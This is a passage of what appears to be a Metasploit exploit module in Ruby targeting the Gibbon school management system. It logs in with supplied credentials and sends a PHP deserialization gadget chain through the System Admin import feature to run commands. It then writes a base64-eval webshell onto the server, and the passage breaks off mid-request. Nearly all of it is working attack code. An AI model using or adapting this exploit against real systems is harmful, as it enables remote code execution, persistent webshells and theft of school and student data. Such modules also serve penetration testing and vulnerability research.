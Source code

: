 ```
    ])
  end
 
  def gibbon_login
    # construct multipart login form data
    form_data = Rex::MIME::Message.new
    form_data.add_part('', nil, nil, 'form-data; name="address"')
    form_data.add_part('default', nil, nil, 'form-data; name="method"')
    form_data.add_part(datastore['USERNAME'].to_s, nil, nil, 'form-data; name="username"')
    form_data.add_part(datastore['PASSWORD'].to_s, nil, nil, 'form-data; name="password"')
    form_data.add_part('025', nil, nil, 'form-data; name="gibbonSchoolYearID"')
    form_data.add_part('0002', nil, nil, 'form-data; name="gibboni18nID"')
 
    return send_request_cgi({
      'method' => 'POST',
      'uri' => normalize_uri(target_uri.path, 'login.php?timeout=true'),
      'keep_cookies' => true,
      'ctype' => "multipart/form-data; boundary=#{form_data.bound}",
      'data' => form_data.to_s
    })
  end
 
  def construct_form_data(payload)
    # construct multipart form data with payload
    payload_len = payload.length
    payload_data = "a:2:{i:7;O:32:\"Monolog\\Handler\\SyslogUdpHandler\":1:{s:9:\"\x00*\x00socket\";O:29:\"Monolog\\Handler\\BufferHandler\":7:{s:10:\"\x00*\x00handler\";r:3;s:13:\"\x00*\x00bufferSize\";i:-1;s:9:\"\x00*\x00buffer\";a:1:{i:0;a:2:{i:0;s:#{payload_len}:\"#{payload}\";s:5:\"level\";N;}}s:8:\"\x00*\x00level\";N;s:14:\"\x00*\x00initialized\";b:1;s:14:\"\x00*\x00bufferLimit\";i:-1;s:13:\"\x00*\x00processors\";a:2:{i:0;s:7:\"current\";i:1;s:6:\"system\";}}}i:7;i:7;}"
 
    form_data = Rex::MIME::Message.new
    form_data.add_part('/modules/System Admin/import_run.php', nil, nil, 'form-data; name="address"')
    form_data.add_part('sync', nil, nil, 'form-data; name="mode"')
    form_data.add_part('N', nil, nil, 'form-data; name="syncField"')
    form_data.add_part('', nil, nil, 'form-data; name="syncColumn"')
    form_data.add_part(payload_data.to_s, nil, nil, 'form-data; name="columnOrder"')
    form_data.add_part('N;', nil, nil, 'form-data; name="columnText"')
    form_data.add_part('%2C', nil, nil, 'form-data; name="fieldDelimiter"')
    form_data.add_part('%22', nil, nil, 'form-data; name="stringEnclosure"')
    form_data.add_part("#{Rex::Text.rand_text_alpha(8..16)}.xlsx", nil, nil, 'form-data; name="filename"')
    form_data.add_part('"External Assessment","Assessment Data","Student","Field Name","Category","Field Name","Result"', nil, nil, 'form-data; name="csvData"')
    form_data.add_part('1', nil, nil, 'form-data; name="ignoreErrors"')
    form_data.add_part('Submit', nil, nil, 'form-data; name="Failed"')
    return form_data
  end
 
  def upload_webshell(b64_payload)
    # randomize file name if option WEBSHELL is not set
    @webshell_name = (datastore['WEBSHELL'].blank? ? "#{Rex::Text.rand_text_alpha(8..16)}.php" : "#{datastore['WEBSHELL']}.php")
 
    # create webshell with base64 encoded PHP payload
    # works for both windows and linux targets
    php_payload = "echo \"<?php @eval(base64_decode(\'#{b64_payload}\'));?>\" > #{@webshell_name}"
    form_data = construct_form_data(php_payload)
 
    # upload webshell
    send_request_cgi({
      'method' => 'POST',
```